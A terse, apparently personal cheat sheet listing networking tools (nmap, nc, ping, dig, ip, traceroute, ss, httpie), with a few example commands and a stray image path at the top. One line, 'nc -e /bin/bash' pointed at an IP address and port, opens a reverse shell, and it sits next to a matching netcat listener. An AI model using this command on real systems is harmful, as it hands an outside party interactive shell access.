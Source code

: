 nmap

nmap -sn 192.168.1.0/24

nc

nc -lvvp 8000
nc -e /bin/bash 192.168.199.102 8000

ping

dig

ip & traceroute

ip address

netcat

ss

httpie